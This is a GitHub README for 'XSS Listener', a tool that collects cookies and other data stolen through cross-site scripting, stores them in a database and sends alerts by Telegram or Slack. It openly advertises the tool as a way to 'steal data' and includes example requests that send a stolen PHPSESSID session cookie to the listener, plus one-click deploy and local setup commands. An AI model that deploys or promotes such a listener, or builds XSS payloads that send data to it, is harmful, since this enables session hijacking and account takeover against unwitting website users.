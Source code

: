 ![logo](https://cagatay.js.org/spider.png)

### 🕷️ XSS Listener is a penetration tool for easy to steal data with various XSS.

From now on, you do not need XSS listeners! XSS listener records the data you have stolen on the remote site in the database, and gives instant notification with telegram / slack.

[![Deploy](https://www.herokucdn.com/deploy/button.svg)](https://heroku.com/deploy?template=https://github.com/cagataycali/xss-listener)

### 🕸️ Know-How Background

- [What is XSS](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS))

- [Steal cookie with XSS without redirecting to another page](https://security.stackexchange.com/questions/49185/xss-cookie-stealing-without-redirecting-to-another-page)

- [TR | How to use XSS](https://canyoupwn.me/tr-how-to-use-xss/)

### 🕸️ Listener Usage

Listener accepts all HTTP methods with parameters, then save database. Example:

```
GET https://yourapp.com/?cookie=PHPSESSID=889c6594db2541db1666cefca7537373

or

POST https://yourapp.com/
Form: { cookie:'PHPSESSID=889c6594db2541db1666cefca7537373' }
```

### You will notify by telegram bot.

![output](https://cagatay.js.org/output.png)

### 🕸️ Detailed Usage

<details>

### 🕸️ List previous requests
<code>https://yourapp.com/list</code>

### 🕸️ Delete previous request by id
<code>https://yourapp.com/delete/[id]</code>

### 🕸️ Even you can use telegram (and / or Slack!)

<code>/list</code>

<code>/delete [id]</code></details>

### 🕸️ Run local environment

In terminal,

```shell
git clone https://github.com/cagataycali/xss-listener.git; # Clone
cd xss-listener; # Change directory.
npm install; # Install dependencies.
cp .env.example .env
# Fill in .env with required values.
# Fill bot token and user id.
node index.js
```

### License

MIT © [Çağatay Çalı](https://cagatay.me)
